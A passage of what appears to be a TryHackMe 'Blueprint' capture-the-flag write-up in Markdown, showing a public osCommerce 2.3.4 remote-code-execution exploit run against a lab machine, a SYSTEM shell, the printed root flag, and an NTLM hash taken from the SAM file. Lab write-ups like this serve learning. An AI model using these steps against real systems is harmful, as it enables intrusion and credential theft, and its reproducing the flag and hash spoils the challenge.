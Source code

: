 Now let's run the [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) and see what it asks for :

```
──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Blueprint]
└─$ python3 50128.py          
please specify the osCommerce url
format: python3 osCommerce2_3_4RCE.py <url>
eg: python3 osCommerce2_3_4RCE.py http://localhost/oscommerce-2.3.4/catalog

```

Let's do it :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Blueprint]
└─$ python3 50128.py http://10.10.124.215:8080/oscommerce-2.3.4/catalog
[*] Install directory still available, the host likely vulnerable to the exploit.
[*] Testing injecting system command to test vulnerability
User: nt authority\system

RCE_SHELL$ whoami
nt authority\system

```

We have a root [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) on the system so let's find the root flag :

```
RCE_SHELL$ type C:\Users\Administrator\Desktop\root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```

We can see the flag directly on the [Website](../../3%20-%20Tags/Hacking%20Concepts/Website.md) too :

![Pasted image 20250719195750.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250719195750.png)


We can find 'Lab' user [NTML](../../3%20-%20Tags/Hacking%20Concepts/NTML.md) hash code in SAM file so let's download it and crack the code :

```
## 30e87bf999828446a1c1209ddde4c450
```

googleplus